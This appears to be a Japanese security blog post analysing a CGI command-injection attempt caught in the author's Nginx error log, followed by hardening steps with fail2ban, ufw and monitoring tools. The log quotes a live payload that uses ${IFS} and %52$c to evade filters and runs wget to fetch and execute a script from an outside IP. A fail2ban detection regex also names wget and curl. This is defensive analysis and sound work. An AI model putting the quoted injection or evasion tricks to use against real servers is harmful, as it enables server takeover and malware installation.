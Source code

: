```yaml
---
slug: cgi-injection-log-analysis
title: CGI攻撃の技術的側面
authors: Z. Yuan
image: /ja/img/2025/0430.jpg
tags: [security, fail2ban, ufw, log-analysis]
description: CGIコマンドインジェクション攻撃の手法。
---
```


私のサーバーが再度攻撃されました。

この世界は本当に悪意に満ちています。

<!-- truncate -->

## CGI とは？

Common Gateway Interface（CGI）は 1993 年に登場した古典的な技術です。その当時、静的なウェブページが主流で、CGI は「動的なコンテンツ」を実現するための革新的な技術として注目されていました。

その動作方式は簡単かつ粗雑です：

1. ブラウザが HTTP リクエストを送信。
2. Web サーバーはリクエストのパスが`/cgi-bin/`に一致すると、「何かしないといけない」と判断。
3. その後、Query String や Header などの情報を環境変数に詰め込む。
4. 次に、外部プログラム（例えば、Perl、Bash、C）をフォークして、それらの変数を処理させる。
5. プログラムは STDOUT を使って HTTP レスポンスを出力。
6. 処理が終わると、プロセスを終了し、次のリクエストで新たにプロセスを立ち上げる。

利点は汎用性が高いことです：OS 上で実行可能な任意の言語で書けます。

しかし、欠点も多く存在します：

- リクエストごとにプロセスを立ち上げるため、パフォーマンスが低下し、サーバーに負荷がかかる。
- 環境変数にはセキュリティ対策がないため、コマンドインジェクションのリスクが高い。
- 実行可能ファイルが公開されたパスに置かれているため、セキュリティが脆弱。
- プロセスの権限が Web サーバーと同等であるため、ユーザーが不注意であれば、攻撃者はサーバーを支配できる。

現在、CGI は PHP-FPM、FastCGI、WSGI など、より安全で効率的なフレームワークに取って代わられています。

しかし、古いシステムでは依然として生き残っており、攻撃者のターゲットとなることがあります。

## 攻撃の兆候

私は日常的に Nginx の error log をチェックしている際に、以下の異常を発見しました：

```log
2025-04-28 14:21:36,297 fail2ban.filter [1723]: WARNING Consider setting logencoding…

b'2025/04/28 14:21:36 [error] 2464#2464: *7393

open() "/usr/share/nginx/html/cgi-bin/mainfunction.cgi/apmcfgupload"
failed (2: No such file or directory),

client: 176.65.148.10,
request: "GET /cgi-bin/mainfunction.cgi/apmcfgupload?session=xxx…0\xb4%52$c%52$ccd${IFS}/dev;wget${IFS}http://94.26.90.205/wget.sh;${IFS}chmod${IFS}+x${IFS}wget.sh;sh${IFS}wget.sh HTTP/1.1",
referrer: "http://xxx.xxx.xxx.xxx:80/cgi-bin/…"\n'
```

この部分に注意してください：

```log
wget${IFS}http://94.26.90.205/wget.sh;
```

これはタイプミスではなく、**完全なコマンドインジェクション**です。

攻撃者は CGI のパラメータを利用して、次の手順を実行しようとしています：

1. `wget.sh`をダウンロード。
2. 実行権限を付与。
3. すぐにスクリプトを実行。

このような悪意のあるスクリプトの内容は様々で、一般的な行動には以下のようなものがあります：

- バックドアアカウントの作成、SSH キーの埋め込み。
- マイニングプログラムの配置（例えば`xmrig`や`kdevtmpfs`）。
- crontab の修正、再起動後に自動復旧するように設定。
- ファイアウォールやセキュリティ監視ツールの停止。

一度感染すると、あなたのサーバーはあなたよりも熱心に働き、収益は他の誰かのポケットに流れることになります。

## 攻撃手法の詳細解析

この種の攻撃は通常、以下の手順で行われます：

- **スキャン**：`GET /cgi-bin/*.cgi`、無差別にリクエストを送り、まだ生きている CGI を探す。
- **注入**：`%52$c`や`${IFS}`などのテクニックを使って、入力フィルタリングや文字列照合を回避。
- **ダウンロード**：`wget http://...`で悪意のあるスクリプトをダウンロード、これらのスクリプトは主に裸機や侵害されたサーバーにホストされていることが多い。
- **実行**：`chmod +x && sh`、権限を広げ、すぐに実行。

ここで紹介する二つの一般的なテクニック：

- `%52$c`：`printf`のフォーマット技法で、元々スタック操作のために設計されています。本例ではオーバーフローには至りませんが、単純なキーワードの照合を回避できます。
- `${IFS}`：Bash の内部フィールド区切り子で、デフォルトでは空白です。空白を`${IFS}`として書くことで、空白をフィルタリングする防御を回避できます。

## 防御策

完璧な防御は存在しませんが、攻撃者に回り道をさせたり無駄な道を歩ませたりすることで、リスクを大幅に減らすことができます。

### 1. CGI モジュールの無効化

```bash
# Apacheの例
sudo a2dismod cgi
sudo a2dismod php7.4

# nginxはCGIをネイティブにサポートしていないので、fcgiwrapのインストールは避けましょう
```

### 2. 通知機能の設定

```bash title="/etc/fail2ban/filter.d/nginx-cgi.conf"
[Definition]
failregex = <HOST> -.*GET .*cgi-bin.*(;wget|curl).*HTTP
ignoreregex =
```

```ini title="/etc/fail2ban/jail.d/nginx-cgi.local"
[nginx-cgi]
enabled  = true
port     = http,https
filter   = nginx-cgi
logpath  = /var/log/nginx/error.log
maxretry = 3
bantime  = 6h
action   = %(action_mwl)s   # メール通知、whois調査、ログサマリーを含む
```

### 3. 基本的なファイアウォール設定

```bash
sudo ufw default deny incoming
sudo ufw allow 22/tcp comment 'SSH'
sudo ufw allow 80,443/tcp comment 'Web'
sudo ufw enable
```

IPv6 を無視せず、同様に制限を設けましょう。

### 4. システム監視

| 機能                           | ツール名                 | インストール方法           |
| ------------------------------ | ------------------------ | -------------------------- |
| リアルタイム監視と警告         | **Netdata**              | `apt install netdata`      |
| ログ分析とトラフィックの視覚化 | **GoAccess**             | `apt install goaccess`     |
| SOC 防御フレームワーク         | **Wazuh** / **CrowdSec** | 公式インストールスクリプト |

- **CrowdSec**：Fail2Ban の進化版で、コミュニティブラックリストと firewall-bouncer プラグインを備えています。
- **Wazuh**：OSSEC の強化版で、Elastic Stack と連携して完全な視覚化ダッシュボードを提供します。

## 結論

異常が発見されなかったからといって、本当に安全だというわけではありません。

観察基準を確立し、定期的にログをチェックすることで、異常が発生した際に即座に発見し、対応できるようになります。

今回の CGI 攻撃は「成功しなかった」ですが、それは相手の技術が拙かったからではなく、私が少し余分に手順を踏んだからです：モジュールを無効化し、ファイアウォールを設定し、Fail2Ban を設定しました。

> **情報セキュリティの本質は「あなたがターゲットかどうか」ではなく、「リスクにさらされているかどうか」です。**

インターネットに接続した瞬間から、すべてのサーバーは世界中のスキャンと攻撃の対象になります。運に頼るのではなく、日々の準備と警戒を怠らないことが重要です。

今回は不審者が遠くからやって来ましたが、幸い私は起きていて、ドアをしっかりとロックしていました。

あなたもそうであることを願っています。
